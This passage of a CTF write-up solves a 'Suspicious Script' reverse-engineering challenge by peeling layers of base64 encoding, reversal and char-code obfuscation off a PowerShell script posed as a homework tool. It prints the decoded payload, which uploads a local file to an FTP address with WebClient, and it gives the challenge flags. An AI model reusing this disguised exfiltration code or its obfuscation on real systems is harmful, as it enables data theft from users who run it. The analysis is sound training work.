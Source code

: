 If we run the script we get the flag.

FLAG: `Dawg{1_pr3f3r_4ppl3s_t0_pa1rs_4nyw2y5}`

---
---
---

## Reverse Engineering

### Suspicious Script
>I was on a site looking for homework help. They offer this tool that I installed and they suggest running it to help solve my assignment. The file ends in .ps1 and I am unfamiliar with it. Can you check it out for me?
>The flag starts with DawgCTF{...}

We are given a powershell script. If we view what is inside we see a huge base64 decoded payload.

```powershell
$6=[SySTEm.tEXt.EnCoDing]::UNicOdE.gEtStRing([coNVerT]::FrOmbaSe64stRIng('JAB7ACEAfQA9AFsAQwBIAGEAcgBdADEAMAA1ADsAJABhAD0AWwBTAHkAUwBUAEUAbQAuAHQARQBYAHQALgBFAG4AQwBvAEQAaQBuAGcAXQA6ADoAVQBOAGkAYwBPAGQARQAu............AIAB8ACAAJgAoACIAJAB7ACEAfQBlACQAewBAAH0AIgApAA=='))
& ([char]105+[char]101+[char]120) $6
```

I treid to decode that base64 string and got another base64 decoded string. 

```powershell
${!}=[CHar]105;$a=[SySTEm.tEXt.EnCoDing]::UNicOdE.gEtStRing([coNVerT]::FrOmbase64stRIng('fQB0AGkAeABlAHsAaABjAHQ.....B7AHkAcgB0AA=='));${@} ="x";$b=$a.ToCharArray();[arRaY]::rEVerSe($b);($b -JoIn "") | &("${!}e${@}")
```

I did the same again and decoded that string. This leaves us with a new piece of characters.

```text
}tixe{hctac};)F$ ,iru$(eliFdaolpU.lcw$;ptf$ tsiLtnemugrA- irU.metsyS emaNepyT- tcejbO-weN=iru$;tneilCbeW.teN.metsyS emaNepyT- tcejbO-weN=lcw$;"piz.ssap/ni/}!5tp1c5_depp4rW{FTCgwaD@yracs:resu//:ptf"=ptf$;611]raHC[+021]raHC[+611]raHC[+64]raHC[+521]raHC[+611]raHC[+211]raHC[+94]raHC[+411]raHC[+99]raHC[+35]raHC[+59]raHC[+511]raHC[+211]raHC[+59]raHC[+001]raHC[+15]raHC[+001]raHC[+84]raHC[+99]raHC[+011]raHC[+15]raHC[+321]raHC[+511]raHC[+911]raHC[+79]raHC[+08]raHC[+29]raHC[+85]raHC[+76]raHC[=F${yrt
```
It looks like the text is reverse so we can re-reverse it and get this code.

```powershell
try{$F=[CHar]67+[CHar]58+[CHar]92+[CHar]80+[CHar]97+[CHar]119+[CHar]115+[CHar]123+[CHar]51+[CHar]110+[CHar]99+[CHar]48+[CHar]100+[CHar]51+[CHar]100+[CHar]95+[CHar]112+[CHar]115+[CHar]95+[CHar]53+[CHar]99+[CHar]114+[CHar]49+[CHar]112+[CHar]116+[CHar]125+[CHar]46+[CHar]116+[CHar]120+[CHar]116;$ftp="ftp://user:scary@DawgCTF{Wr4pped_5c1pt5!}/in/pass.zip";$wcl=New-Object -TypeName System.Net.WebClient;$uri=New-Object -TypeName System.Uri -ArgumentList $ftp;$wcl.UploadFile($uri, $F);}catch{exit}
```

And there is the flag embedded in.

FLAG: `DawgCTF{Wr4pped_5c1pt5!}`

---
---
---
